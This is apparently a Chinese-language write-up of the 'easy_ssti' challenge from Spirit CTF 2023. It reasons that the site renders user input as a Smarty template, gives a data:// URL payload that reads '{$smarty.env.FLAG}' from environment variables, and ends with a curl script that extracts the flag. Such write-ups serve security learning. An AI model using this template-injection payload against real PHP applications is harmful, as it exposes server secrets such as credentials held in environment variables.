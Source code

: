 # Spirit CTF 2023 题解 - easy_ssti

```
/
```

![](<./img/Pasted image 20230514182339.png>)

随便点进去一个

```
/challenges.php?name=bridge
```

留意到图片的地址

```
/bridge/bridge.jpg
```

回头看一眼

题目描述
===

> R U **SMART** ENOUGH www

题目名
===

> easy_ssti

基本可以推测出是smarty的ssti

猜测后端实现是`name`参数与`/<template_name>`拼接作为模板路径

如果只是这样还不足以构成ssti，整个提交页面有一个统一的样式表和提交面板，于是我们开一下脑洞

1. 接收`name`参数，拼接成各子目录下的模板路径，使用`file_get_contents`直接读取模板内容
2. 将模板内容直接`sprintf`到一个全局的模板中（血压升高～）
3. 渲染这个模板（大事不妙啦）

于是构造模板字符串读取环境变量，用伪协议包装下就ok啦

```
/challenges.php?name=data://text/plain,{$smarty.env.FLAG}
```

![](<./img/Pasted image 20230514184325.png>)

---

一键获得flag（好像更麻烦？）

```shell
#/bin/bash

url='http://<host>:<port>/challenges.php'
payload='name=data://text/plain,{$smarty.env.FLAG}'

curl --silent $url -G --data-urlencode $payload | grep Spirit | sed -n 's/.*\(Spirit{.*}\).*/\1/p'
```
